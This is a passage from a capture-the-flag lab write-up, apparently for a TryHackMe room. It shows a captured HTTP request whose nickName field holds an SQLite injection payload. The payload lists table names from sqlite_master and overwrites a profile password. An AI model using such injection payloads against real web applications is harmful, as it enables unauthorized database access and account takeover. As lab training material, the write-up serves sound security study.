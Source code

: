 There are two.

![Pasted image 20210804094728](Pasted%20image%2020210804094728.png)

Determine the name of the two tables.

```http
POST /sesqli5/profile HTTP/1.1
Host: 10.10.109.88:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 236
Origin: http://10.10.109.88:5000
DNT: 1
Connection: close
Referer: http://10.10.109.88:5000/sesqli5/profile
Cookie: session=.eJy9z7FqAzEMBuB38ZzBOkln382l0CVb5yDbMphecqmdUkrIu9fXlNKxUzfp_0Hou5qm7XUpcEhyETNfzfPTg5lhZ_QoZTGzMTtzkqP26bHKKa6lbUmJL_t72reztHZe62Vf--5HywOzBbKevsv3taZeUfSYnY2SUSBOEimSS8NErDY7n11CFhcnIPEKHkaUqAN6gaA6Qtiu1TWXRbcfDdgeNFmkfph5YHvb_WDemtZDSV-Qe8b_AYzKUUaHCTDgCOATUwdlQNHQ3Ra6BkN2DtQB0gCBEuTkCTLjJH8F8i_g7RPqGYUc.YQqYFg.hBU1GBPvrJ7J_k0Kb6c4JLNtkGA
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

nickName=tgihf',email=(SELECT+name+FROM+sqlite_master+WHERE+type+=+'table'+AND+name+NOT+LIKE+'sqlite_%'+LIMIT+0,1),password='d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1';--+&email=tgihf%40tryhackme.com&password=pass
```
